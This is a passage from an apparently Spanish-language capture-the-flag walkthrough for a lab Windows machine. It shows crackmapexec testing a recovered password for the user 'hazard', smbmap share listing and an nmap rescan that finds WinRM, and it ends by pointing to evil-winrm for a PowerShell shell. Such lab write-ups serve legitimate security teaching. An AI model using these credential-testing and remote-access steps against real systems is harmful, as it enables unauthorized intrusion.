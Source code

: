 * Obtenemos más info relevante, sistema operativo yyy dominio.

Jugando con los usuarios del archivo `config.txt` no logramos obtener nada, peeeero, si recordamos habíamos hablado que podría existir el usuario **hazard**, pueeeeees:

```bash
❱ crackmapexec smb 10.10.10.149 -u 'hazard' -p 'incorrecta' 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)  
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:incorrecta STATUS_LOGON_FAILURE 
```

```bash
❱ crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent'
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)  
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```

Lindo, las credenciales `hazard:stealth1agent` son válidas contra el servidor **samba** (: Veamos si tenemos recursos disponibles:

```bash
❱ smbmap -H 10.10.10.149 -u 'hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share  
        IPC$                                                    READ ONLY       Remote IPC
```

Ningún recurso útil ):

Probando en la web con las credenciales tampoco logramos nada nuevo. Entonces pensé que si no funcionan contra la web, probablemente no sea una explotación web lo que debamos hacer.

Entonces necesitaríamos algún servicio para probarlas, algo así como "**SSH**" así que recordé el servicio **WinRM** (que no fue descubierto en nuestro escaneo, pero pueda que simplemente se le haya pasado), así que volviendo a hacer el escaneo de **nmap** encontramos el puerto **5985**, el cual mantiene por lo general el servicio **WinRM**:

```bash
❱ nmap -p- --open -v 10.10.10.149 
...
Discovered open port 5985/tcp on 10.10.10.149
...
```

Y sí, estaba abierto, a veces pasa que el escaneo inicial no toma algunos puertos, entonces pues es bueno volver a ejecutarlo y así confirmamos o añadimos información.

> **WinRM** permite realizar tareas administrativas remotamente (en pocas palabras). [Intro WinRM Windows](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/).

Nos podemos aprovechar de **WinRM** para explotarlo mediante la herramienta [evil-winrm](https://www.hackplayers.com/2019/10/evil-winrm-shell-winrm-para-pentesting.html), para en caso de contar con credenciales válidas, probablemente conseguir una **PowerShell** en el sistema.

